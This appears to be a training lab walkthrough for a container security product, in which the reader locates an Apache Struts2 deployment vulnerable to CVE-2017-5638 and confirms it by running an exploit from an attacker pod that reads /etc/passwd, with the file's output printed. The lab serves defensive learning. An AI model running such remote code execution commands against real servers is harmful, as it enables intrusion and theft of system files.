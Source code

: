 # Scenario: Runtime Vulnerability Scanning

## Prerequisites

- Playground One EKS EC2 Cluster
- Vision One Container Security
- Playground One Scenarios

Ensure to have the EKS EC2 Cluster including the Scenarios up and running:

```sh
pgo --apply eks-ec2
pgo --apply scenarios-ec2
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the vulnerability detection functionalities of Vision One Container Security at runtime. The deployments of the scenarios configuration are all based on container images with plenty of different vulnerabilities.

By the end of the scenario, you will understand and learn the following:

- Reviewing vulnerability findings and searching for a specific vulnerability
- Proof the finding by exploitation

## The story

Every now and then new critical vulnerabilities are disclosed. A famous one with huge impact was the  vulnerability CVE-2017-5638. 

On March 6th 2017, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This vulnerability allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header. Written in Java, Apache Struts 2 is the popular open source web application framework. This is yet another incident that adds up to a long list of vulnerabilities in this framework.

You want to search and validate for this specific vulnerability in your production environment.

## Goals

The goal of this scenario is to identify the vulnerable deployment and proof that it is vulnerable.

### Hints

<details>
<summary>Click here</summary>

✨ Didn't find the vulnerable deployment?
<br><br>
Head over to Container Security --> Runtime vulnerability and search for CVE-2017-5638. 🙌
<br><br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

Head over to Attack Surface Risk Managemet and search for the vulnerability CVE-2017-5638

Identify the vulnerable deployment/container

Find out the namespace and metadata.

You'll see that the deployment is running within the `victims` namespace and owns the label `app=java-goof`.

Checking the services in the namespace `victims` 

```sh
kubectl -n victims get services
```

tells us

```
NAME                TYPE       CLUSTER-IP       EXTERNAL-IP   PORT(S)          AGE
java-goof-service   NodePort   172.20.132.99    <none>        8080:30119/TCP   26m
web-app-service     NodePort   172.20.121.120   <none>        80:32194/TCP     26m
```

That `java-goof` is reachable on port 8080.

Let's try to verify the vulnerability using the `attacker-cve-2017-5638` pod running in the namespace `attackers`. In your shell run

```sh
namespace="victims"

kubectl exec -n attackers \
  $(kubectl -n attackers get pods --selector=app=attacker-cve-2017-5638 -o jsonpath='{.items[0].metadata.name}') -- \
  python3 exploit.py http://java-goof-service.${namespace}:8080 'cat /etc/passwd'
```

```ascii
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: cat /etc/passwd

b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\n'
```

You proofed that the application server of your little todolist application is vulnerable to CVE-2017-5638.

You may recognize the url `http://java-goof-service.${namespace}:8080` used in the `kubectl` command. Since we're attacking from a pod running on the cluster we can reference the java-goof-service by it's DNS name managed by CoreDNS. The schema for this is `service.namespace`.

🎉 Success 🎉

</details>
